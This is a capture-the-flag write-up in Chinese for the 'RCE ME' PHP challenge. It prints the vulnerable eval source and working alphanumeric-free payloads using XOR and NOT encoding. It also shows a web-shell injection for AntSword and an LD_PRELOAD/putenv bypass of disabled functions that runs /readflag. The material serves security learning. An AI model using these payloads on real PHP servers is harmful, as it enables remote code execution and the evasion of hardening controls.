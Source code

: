 # [极客大挑战 2019]

## RCE ME


直接给了源码

```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}

// ?>
```

题目要我们RCE，但是把数字字母都过滤了，考虑只用符号写

一个网上经典的exp

```
?code=$_="`{{{"^"?<>/";;${$_}[_](${$_}[__]);&_=assert&__=执行的命令
```

然后出题人表示这不是预期解，应该把``_`'"^?<>${}]``也过滤掉的

给出的解法是

```php
?code=(~%9E%8C%8C%9A%8D%8B)((~%91%9A%87%8B)((~%98%9A%8B%9E%93%93%97%9A%9E%9B%9A%8D%8C)()));
//("assert")(("next")(("getallheaders")()));
```

在UA头里RCE

利用取反构造``(“assert”)()`` 

在php7里如果一个变量名后有圆括号，PHP 将寻找与变量的值同名的函数，并且尝试执行它

又因为PHP>7.1 时assert被定义为一种语言构造器，而不是一个函数，所以像eval一样不支持被可变函数调用

所以这段代码只能在php7.0中被利用

利用``print_f``和``scandir``fuzz一下可以看到flag在根目录下，但是无法读，还有个/readflag,可惜phpinfo里可以看到php自带的RCE函数比如system()都被禁用了。。。。

这里利用LD_PRELOAD与putenv来绕过

蚁剑连接

```
http://08eb3e97-4bf3-4dc0-b659-542c196dfd09.node3.buuoj.cn/?code=$_=%22`{{{%22^%22?%3C%3E/%22;;${$_}[_](${$_}[__]);&_=assert&__=eval($_REQUEST['eki'])
```

上传恶意.so .php文件（具体可见参考资料）

调用/readflag即可

```
http://08eb3e97-4bf3-4dc0-b659-542c196dfd09.node3.buuoj.cn/?code=$_=%22`{{{%22^%22?%3C%3E/%22;;${$_}[_](${$_}[__]);&_=assert&__=include(%27/tmp/233.php%27)&cmd=/readflag&outpath=/tmp/xx&sopath=/tmp/233.so
```

### 参考资料

深入浅出LD_PRELOAD & putenv():

[https://www.anquanke.com/post/id/175403](https://www.anquanke.com/post/id/175403)

利用的Exp:

[https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD)

出题人的博文：

[https://evoa.me/index.php/archives/62/](https://evoa.me/index.php/archives/62/)

phpRCE提高篇：

[https://ab-alex.github.io/2019/10/17/RCE%E6%8F%90%E9%AB%98%E7%AF%87/](https://ab-alex.github.io/2019/10/17/RCE%E6%8F%90%E9%AB%98%E7%AF%87/)